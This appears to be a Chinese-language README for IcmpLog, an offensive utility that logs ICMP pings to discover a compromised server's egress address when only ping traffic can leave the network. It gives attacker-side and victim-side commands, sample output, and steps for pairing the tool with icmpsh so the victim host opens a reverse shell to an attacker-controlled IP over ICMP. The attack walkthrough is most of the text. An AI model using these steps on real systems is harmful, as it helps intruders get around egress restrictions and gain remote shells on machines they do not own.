 # IcmpLog
一个监听icmp请求的小程序
- 用于只在ping出网的情况下获取服务器的出口地址。
- 可以配合[icmpsh](https://github.com/bdamele/icmpsh)实现仅在Icmp出网的情况下获取服务器反弹shell

## 使用
攻击端执行
```
{21-07-08 16:04}mail:~ root# ./icmplog [Attack Server IP]
```
被攻击机执行
```
ping [Attack Server IP]
```
服务端回显
```
2021/07/08 16:04:44 message = '', length = 0, source-ip = *.*.*.109
2021/07/08 16:04:45 message = '', length = 0, source-ip = *.*.*.109
2021/07/08 16:04:46 message = '', length = 0, source-ip = *.*.*.109
2021/07/08 16:04:47 message = '', length = 0, source-ip = *.*.*.109
```
之后利用icmpsh
被攻击机执行
```
.\icmpsh.exe -t [Attack Server IP]
```
攻击机执行
```
python2.7 icmpsh_m.py [Attack Server IP] *.*.*.109
```
即可获取反连的webshell

